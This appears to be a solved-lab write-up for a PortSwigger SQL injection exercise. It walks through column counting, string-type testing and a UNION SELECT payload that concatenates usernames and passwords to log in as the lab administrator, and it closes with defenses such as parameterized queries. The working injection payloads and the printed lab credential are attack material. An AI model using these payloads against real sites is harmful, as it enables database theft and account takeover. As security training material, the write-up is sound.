

**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

---

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Background

UNION-based SQL injection allows attackers to append a `UNION SELECT` statement to retrieve data from other tables. This vulnerability occurs when user input is concatenated directly into SQL queries without proper sanitization. For the attack to succeed, the injected query must return the same number of columns as the original query, with compatible data types in each position.

---

## My Approach

### Step 1: Determine the Number of Columns

First, I used the `ORDER BY` technique from [Lab 7](7.%20SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md) to find the column count:

```
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+1--
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+2--
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+3--
```

The application accepted `ORDER BY 2` but returned an error on `ORDER BY 3`, confirming the query returns **2 columns**.

### Step 2: Test Data Type Compatibility

Knowing the column count isn't enough—I need to identify which columns can accept **string data**. To test this, I injected a string value (`'a'`) into each column position while keeping the other as `NULL`:

| Payload | Result |
|---------|--------|
| `' UNION SELECT 'a', NULL FROM users--` | ❌ Error — Column 1 not string-compatible |
| `' UNION SELECT NULL, 'a' FROM users--` | ✅ Success — Column 2 is string-compatible |

> [!INFORMATION] Why Test with `'a'`?
> 
> Testing with a simple string like `'a'` helps identify which columns accept text data. If a column expects a number (e.g., `INTEGER`) and you inject a string, the database throws a type mismatch error. By systematically placing the string in each position, you can map out which columns are safe for text-based payloads. This is a critical reconnaissance step before attempting to extract actual data.

### Step 3: Extract Credentials with Concatenation

Since only **column 2** accepts string data, I need to display both `username` AND `password` in that single column. This requires **SQL concatenation**:

```sql
username || '~' || password
```

> [!INFORMATION] Why Concatenation is Required
> 
> When only one column is string-compatible, you cannot simply select two separate string columns (e.g., `username, password`). Instead, you must combine them into a single string using concatenation. The `||` operator (used in Oracle and PostgreSQL) joins multiple strings together. The `'~'` separator makes the output readable and helps distinguish between the username and password in the response. For other databases, use `CONCAT()` (MySQL) or `+` (SQL Server). See [Lab 5](<5. SQL injection attack, listing the database contents on non-Oracle databases>) and [Lab 6](<6. SQL injection attack, listing the database contents on Oracle>) for more examples.

### Final Injection

```sql
' UNION SELECT NULL, username || '~' || password FROM users--
```

This returned the credentials: `administrator~kxndnkv657a2ovmn1af7`



### Step 4: Log In

I navigated to **My Account** and logged in with:
- **Username:** `administrator`
- **Password:** `kxndnkv657a2ovmn1af7`

---

## Payload Used

### Payload 1: Column Count Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+3--
```

### Payload 2: Data Type Testing (Column 1 - Failed)
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+%27a%27,+NULL+FROM+users--
```

### Payload 3: Data Type Testing (Column 2 - Success)
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+NULL,+%27a%27+FROM+users--
```

### Payload 4: Credential Extraction (Final)
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+NULL,+username+||+%27~%27+||+password+FROM+users--
```

**Decoded for clarity:**
```
category=Pets' UNION SELECT NULL, username || '~' || password FROM users--
```

---

## Why It Worked

The original query likely looked like this:

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

After injection, it became:

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, username || '~' || password FROM users--' AND released = 1
```

### Breakdown

| Component | Purpose |
|-----------|---------|
| `'` | Closes the original string parameter in the `WHERE` clause |
| `UNION SELECT NULL, ...` | Appends a second query with 2 columns, using NULL for column 1 |
| `username \|\| '~' \|\| password` | Concatenates both credentials into a single string for column 2 (the only string-compatible column) |
| `FROM users` | Specifies the target table containing user credentials |
| `--` | SQL comment sequence that neutralizes the rest of the original query |

The attack succeeded because:

1. **Column count matched** (2 columns confirmed via `ORDER BY`)
2. **Data type compatibility identified** (only column 2 accepts strings, tested with `'a'`)
3. **Concatenation worked** (`||` operator combined both values into the single string-compatible column)
4. **Results displayed in response** (the application shows query results, allowing extracted data to be visible)

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

### Additional Recommendations

| Defense | Description |
|---------|-------------|
| **Parameterized Queries** | Always use placeholders instead of concatenating user input |
| **Least Privilege** | Database accounts should only have access to required tables |
| **Input Validation** | Validate and sanitize all user input |
| **Web Application Firewall (WAF)** | Deploy a WAF to detect and block SQL injection patterns |

---

## Key Takeaway

> When only one column is string-compatible in a UNION attack, you must use **concatenation** to combine multiple values into that single column. Always test data type compatibility systematically (e.g., with `'a'`) before attempting data extraction. This lab reinforces that column count alone isn't enough—you must also understand which columns can accept your payload. As always, use **parameterized queries** to prevent SQL injection at the source.
